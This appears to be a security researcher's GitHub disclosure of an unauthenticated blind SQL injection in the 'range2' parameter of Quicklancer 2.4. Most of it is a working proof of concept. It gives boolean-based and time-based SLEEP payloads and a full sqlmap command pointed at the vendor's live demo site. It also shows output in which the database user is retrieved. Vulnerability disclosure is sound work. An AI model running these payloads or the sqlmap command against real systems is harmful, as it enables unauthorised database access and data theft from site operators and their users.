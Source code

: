 # SQL Injection Vulnerability in Quicklancer 2.4
A SQL injection vulnerability exists in the Quicklancer 2.4, GET parameter 'range2', that has time-based blind SQL injection and a boolean-based blind SQL injection, which can be exploited remotely by unauthenticated attacker to execute arbitrary SQL queries in the database.

## POC

### Payloads:
```sh
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
```

### Sqlmap:
```sh
python sqlmap.py -u "https://quicklancer.bylancer.com/listing?cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1&salary-type=1&sort=id&subcat=" -p range2 --dbms=mysql --current-db --current-user --batch

....
[13:41:41] [INFO] checking if the injection point on GET parameter 'range2' is a false positive
GET parameter 'range2' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
---
[13:41:48] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.12
[13:41:56] [INFO] fetching current user
[13:41:56] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:41:56] [INFO] retrieved: quicklancer_dbuser@localhost
```

![Banner](quicklancer/quicklancer1.jpg)


![Banner](quicklancer/quicklancer2.jpg)

## Contact

For any suggestions or thoughts, please get in touch with [me](https://x.com/MohamedNab1l).


## References

- https://bylancer.com/demo/quicklancer/

